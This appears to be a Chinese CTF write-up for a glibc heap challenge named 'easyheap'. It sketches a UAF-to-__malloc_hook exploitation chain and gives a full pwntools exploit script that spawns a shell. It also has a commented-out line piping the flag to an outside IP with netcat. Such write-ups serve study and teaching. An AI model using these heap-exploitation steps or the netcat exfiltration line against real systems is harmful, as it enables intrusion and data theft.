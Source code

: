 # Easyheap


题目存在一个很容易发现的UAF，并且限制了show

但是问题是，题目只能申请一个chunk

1. 申请大量fastbin chunk，用scanf触发malloc_conslidate 合并构造unsorted bin
2. 利用fastbin拿回chunk，并利用0xao 构造unlink
3. Double free unlink 写到.bss上利用username 和 password 构造house of spirit
4. 用fastbin 再拿回来，修改random_num，顺利leaking
5. 最后在这个UAF上edit 利用fastbin attack 写到__malloc_hook

利用链一气呵成，不算难，但是很漂亮，不非预期就好，2333

最后题目关闭了stdout，用骚操作反弹就可以或者stdin输出?

EXP如下:

```python
#!python
#-*- coding: utf-8 -*-
from pwn import *

r = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x, drop = True)
s = lambda x,y: p.sendafter(x,y)
sl = lambda x,y: p.sendlineafter(x,y)

context.log_level = 'debug'
context.terminal = ['tmux','sp','-h','-l','120']

p = process("./easyheap")
elf = ELF("./easyheap")
libc = elf.libc

def add(size,cnt):
    sl(">> ",str(1))
    sl("size\n",str(size))
    s("content\n",cnt)

def add_no_output(size,cnt):
    p.sendline(str(1))
    p.sendline(str(size))
    p.send(cnt)

def dele():
    sl(">> ",str(2))

def dele_no_output():
    p.sendline(str(2))

def show():
    sl(">> ",str(3))

def gift(choice,cnt=""):
    sl(">> ",str(666))
    s("free?",str(choice))
    if choice==1:
        s("content\n",cnt)

# house of spirit
s("username:",3*p64(0)+p64(0x41))
s("info",3*p64(0)+p64(0x20e21))

add(0x38,'\0'*0x38)
dele()
add(0x48,'\0'*0x48)
dele()
add(0x28,'\0'*0x28)
dele()
add(0x18,'\0'*0x18)
dele()
add(0x68,'\0'*0x30+p64(0)+p64(0x21)+"\0"*0x10+p64(0x20)+p64(0x101))
dele()

add(0x80,'\x00'*0x80)
add(0x28,'\0'*0x28)
dele()

sl(">> ",'1'*0x400)

payload = 2*p64(0)
payload += p64(0x602098-0x18)+p64(0x602098-0x10)
payload = payload.ljust(0x80,'\0')
payload += p64(0x80)+p64(0x90)

gift(1,cnt=payload)
dele()
gift(2)

# Leaking libc
add(0x38,p64(0)+p64(0x602080)+p64(0xdeadbeefdeadbeef))
dele()
add(0x68,'A'*0x10)
# gdb.attach(p)#'b *0x400A47\n b *'+hex(one))
show()
ru("A"*0x10)

libc.address= u64(ru("\n").ljust(0x8,'\x00'))-0x3c4b78
log.info("libc.address:"+hex(libc.address))
__malloc_hook = libc.sym['__malloc_hook']
system = libc.sym['system']

one = libc.address+0xf02a4
# ru("everything has a price\n")

# Overlap
#dele()
#add(0x80,'\x00'*0x80)
#add(0x18,p64(0)+p64(0x71)+p64(__malloc_hook-0x23))
#add(0x68,'\x00'*0x68)
#add(0x68,'\x00'*0x13+p64(one))
#dele()

pause()
dele_no_output()
pause()
add_no_output(0x80,'\0'*0x80)
pause()
add_no_output(0x18,p64(0)+p64(0x71)+p64(__malloc_hook-0x23))
pause()
add_no_output(0x68,'\0'*0x68)
pause()
add_no_output(0x68,"\0"*0x13+p64(one))

# getshell
dele_no_output()

#p.sendline("cat flag | nc 104.168.236.8 8888")

p.interactive()
```
